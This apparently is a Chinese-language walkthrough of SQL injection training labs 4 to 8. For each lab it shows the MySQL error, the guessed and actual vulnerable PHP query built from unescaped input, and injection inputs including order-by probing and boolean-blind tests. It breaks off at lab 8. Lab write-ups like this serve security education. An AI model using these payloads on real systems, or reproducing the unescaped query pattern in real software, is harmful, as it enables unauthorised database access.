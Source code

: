     报错反馈     You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"1"") LIMIT 0,1' at line 1 

猜测源码：

    select * from users where ID= ("id")
对照源码：

    $sql="SELECT * FROM users WHERE id=($id) LIMIT 0,1";
    $result=mysql_query($sql);

后续参照lab3，输入id=1") order by 3 --+

之后语句都一样。

###lab5###
输入id=1'，

    报错反馈You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1

猜测源码：
    
    select * from users where ID='id',limit 0,1

对照源码：

    $sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
    $result=mysql_query($sql);

查询结果不显示，若sql语句正确，反馈'you are in'，故可以用显错注入，输入：
id=1' and 1=1--+  有反馈
id=1' and 1=2--+  无反馈
id=1' and (select database())=''--+  无反馈
依次类推

###lab6###
输入id=1',无反馈

输入id=1",
`显示You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"1"" LIMIT 0,1' at line 1`

说明只要输入"，即刻完成语句包围，后续和lab5类似。

猜测源码：
    
    select * from users where ID='id',limit 0,1
对照源码：
    
    $id = '"'.$id.'"';
    $sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
    $result=mysql_query($sql);


###lab8考验布尔盲注###
检测漏洞：输入id=1' 有不同的显示，
输入id=1' --+,显示正常，说明有漏洞，但是没有反馈报错信息，也不反馈查询信息

对照源码：
    
